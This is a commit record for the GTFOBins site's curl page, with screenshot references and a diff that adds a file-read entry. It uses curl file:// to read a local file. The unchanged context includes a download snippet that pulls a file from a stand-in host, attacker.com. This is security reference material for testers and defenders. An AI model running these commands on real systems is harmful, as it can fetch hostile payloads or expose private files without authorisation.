

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/curl.md, in a window 1280 px wide. Shown: the top 863 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add file-read to curl

```diff
--- a/_gtfobins/curl.md
+++ b/_gtfobins/curl.md
@@ -12,4 +12,9 @@ functions:
         URL=http://attacker.com/file_to_get
         LFILE=file_to_save
         curl $URL -o $LFILE
+  file-read:
+    - description: The file path must be absolute.
+      code: |
+        LFILE=/tmp/file_to_read
+        curl file://$LFILE
 ---
```
